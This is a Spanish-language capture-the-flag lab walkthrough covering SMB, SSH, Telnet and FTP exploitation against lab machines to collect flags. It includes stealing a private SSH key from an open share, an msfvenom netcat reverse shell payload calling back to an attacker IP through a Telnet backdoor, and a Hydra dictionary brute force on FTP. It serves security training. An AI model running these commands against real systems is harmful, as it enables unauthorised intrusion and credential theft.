# Explotación de Servicios (SMB, SSH, FTP y Telnet)

Este documento detalla el proceso de intrusión y obtención de banderas en un entorno de laboratorio, cubriendo desde la enumeración de red hasta la ejecución de una **Reverse Shell**.

---

## 1. Fase de Reconocimiento y SMB

El primer paso consistió en identificar la superficie de ataque y los recursos compartidos disponibles en la red para establecer un punto de entrada.

### Enumeración de SMB
Utilizamos herramientas como `enum4linux` y `nxc` (NetExec) para identificar grupos de usuarios, la versión del sistema operativo y el nombre de la máquina objetivo.

**Comando ejecutado:**
```bash
enum4linux -a 10.66.134.66
```



### información del sistema operativo


información del nombre de maquina
```bash
nxc smb 10.66.134.66
```

### 1. Enumeración de Recursos Compartidos

**Recursos Compartidos:**  
Identificamos un recurso llamado **/profiles**. Listamos los archivos sin necesidad de contraseña (`-N`).

```bash
smbclient -L //10.66.134.66/ -N
```

---

### 2. Acceso Inicial vía SSH

Dentro del recurso compartido encontramos una posible vía de acceso mediante **llaves criptográficas**.

#### Extracción de la llave

Nos conectamos al recurso compartido y navegamos hasta encontrar una carpeta de usuario (por ejemplo: `cactus`).  
Dentro de la carpeta oculta `.ssh` descargamos la **llave privada**.

```bash
smbclient //10.66.134.66/profiles -N
```

Una vez que aparezca el prompt:

```
smb: \>
```

Ejecutamos los siguientes comandos:

**Listar contenido**

```
ls
```

**Entrar a la carpeta del usuario**

```
cd cactus
```

**Entrar a la carpeta oculta**

```
cd .ssh
```

**Descargar el archivo**

```
get id_rsa
```

Luego el archivo se descarga desde el servidor remoto al **Directorio de Trabajo Actual**.

---

### 3. Configuración de Permisos

Para que **SSH** acepte la llave privada, aplicamos el principio de **privilegios mínimos**.

```bash
chmod 600 id_rsa
```

---

### 4. Intrusión al Sistema

Finalmente accedemos al sistema remoto utilizando la llave privada descargada.

```bash
ssh -i id_rsa cactus@10.66.134.66
```

### 3. Explotación de Telnet (Backdoor)

Tras un escaneo exhaustivo con **nmap** de todos los puertos (`-p-`), detectamos un servicio inusual.

#### Detección
El escaneo reveló un servicio con la huella digital **SKIDY'S BACKDOOR**.

```bash
sudo nmap -sV -p- 10.66.156.114
```

En el mismo resultado del escaneo, justo antes de la palabra **"BACKDOOR"**, aparece el nombre del usuario: **SKIDY'S**.

- **Usuario identificado:** Skidy



### Prueba de Concepto (PoC)

Antes de lanzar el ataque, configuramos **tcpdump** para monitorear el tráfico **ICMP** y confirmar que tenemos **ejecución remota de comandos (RCE)**.

```bash
sudo tcpdump ip proto \\icmp -i tun0
```

---

### Generación del Payload

Usamos **msfvenom** para crear una **reverse shell** basada en **Netcat (mkfifo)**.

```bash
msfvenom -p cmd/unix/reverse_netcat lhost=192.168.214.133 lport=4444 R
```

Se generará el siguiente payload:

```
mkfifo /tmp/mnpazns; nc 192.168.214.133 4444 0</tmp/mnpazns | /bin/sh >/tmp/mnpazns 2>&1; rm /tmp/mnpazns
```

---

### Ejecución del Ataque

1. Levantamos el **listener** para recibir la conexión:

```bash
nc -lvnp 4444
```


2.	Conectamos por Telnet: **telnet [IP] [PUERTO]**



3. **Ejecución del Payload**

Ejecutamos el payload anteponiendo el comando `.RUN`.

Después de ejecutar el payload, regresamos a la terminal donde levantamos el **listener**.  
Si la explotación fue exitosa, recibiremos una **reverse shell**, lo que nos permitirá ejecutar comandos en el sistema remoto.

Desde ahí procedemos a enumerar el sistema para localizar el archivo **flag.txt**.

---

### 4. Ataque de Fuerza Bruta a FTP

Primero realizamos la **enumeración de los puertos abiertos** para identificar si el servicio **FTP** está disponible en el sistema objetivo.



En otro vector de ataque, analizamos el servicio **FTP** para obtener acceso mediante credenciales.

- **Acceso Anónimo y Enumeración:** Entramos como `anonymous` y descargamos el archivo `PUBLIC_NOTICE.txt`, donde identificamos el nombre del administrador: **Mike**.

```bash
ftp 10.66.179.86
```


Cuando el servidor solicita credenciales, utilizamos el usuario:

```
Name: anonymous
```

Una vez dentro del servicio, listamos los archivos disponibles en el directorio:

```
ftp> ls
```

Durante la enumeración identificamos un archivo llamado:

```
PUBLIC_NOTICE.txt
```

Procedemos a descargar el archivo al **directorio de trabajo local**:

```
ftp> get PUBLIC_NOTICE.txt
```

Este archivo puede contener información relevante para continuar con el proceso de explotación.



luego leemos el archivo



### Identificación de Usuario

Tras analizar el archivo descargado **PUBLIC_NOTICE.txt**, observamos que uno de los administradores del sistema es **Mike**.

---

### Ataque de Fuerza Bruta con Hydra

Una vez identificado el usuario **mike**, procedemos a realizar un **ataque de diccionario** contra el servicio **FTP** utilizando la herramienta **Hydra**.

#### Preparación del diccionario

Primero descomprimimos el diccionario `rockyou.txt`, ya que normalmente viene comprimido en Kali Linux:

```bash
sudo gunzip /usr/share/wordlists/rockyou.txt.gz
```

---

#### Ejecución del ataque de fuerza bruta

Luego aplicamos el ataque utilizando el usuario identificado y el diccionario **rockyou.txt**:

```bash
hydra -t 4 -l mike -P /usr/share/wordlists/rockyou.txt -vV 10.66.179.86 ftp
```

**Explicación de parámetros:**

- `-t 4` → número de hilos paralelos  
- `-l mike` → usuario objetivo  
- `-P` → diccionario de contraseñas  
- `-vV` → modo verbose (muestra cada intento)  
- `ftp` → servicio objetivo



### Credenciales Obtenidas

Tras ejecutar el ataque de **fuerza bruta con Hydra**, logramos obtener la contraseña del usuario **mike**.

**Credenciales encontradas:**

```
Usuario: mike
Contraseña: password
```

---

### 5. Post-Explotación

Una vez obtenidas las credenciales válidas, procedemos a conectarnos nuevamente al servicio **FTP** utilizando el usuario comprometido.

```bash
ftp [ip]
```

Luego ingresamos las credenciales obtenidas para acceder al servidor y continuar con la enumeración del sistema.



### Enumeración de Archivos en FTP

Una vez dentro del servidor **FTP**, procedemos a enumerar los archivos disponibles en el directorio.

1. **Listamos el contenido del directorio:**

```
ftp> ls
```

2. **Observamos que existe un archivo llamado:**

```
ftp.txt
```

3. **Descargamos el archivo al directorio de trabajo local:**

```
ftp> get ftp.txt
```

---

### Lectura del Archivo

Finalmente, una vez descargado el archivo en nuestro sistema, procedemos a visualizar su contenido:

```bash
cat ftp.txt
```


y encontramos la ultima flag del room
